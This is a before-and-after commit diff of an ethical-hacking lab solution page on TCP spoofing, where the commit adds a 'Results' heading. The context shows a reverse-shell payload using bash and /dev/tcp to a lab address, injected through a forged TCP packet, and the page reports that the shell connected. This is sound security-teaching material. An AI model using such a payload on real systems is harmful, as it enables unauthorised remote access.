

Before and after one commit to ProSecCorp/Ethical-hacking, a Markdown page: 02 - TCPSpoofing/solution.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Document successful reverse shell connection results
Added results section to document successful reverse shell connection.

````diff
--- a/02 - TCPSpoofing/solution.md
+++ b/02 - TCPSpoofing/solution.md
@@ -334,6 +334,7 @@ Listening on 0.0.0.0 9090
 
 We then send the forged packet and see if the shell connects to our machine, remembering to add carriage return (`\r`) and newline (`\n`) to be sure that the command is executed on the server: `data = "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1\r\n"`
 
+### Results
 We did everything correctly and the reverse shell connected succesfully.
 
 ```bash
````
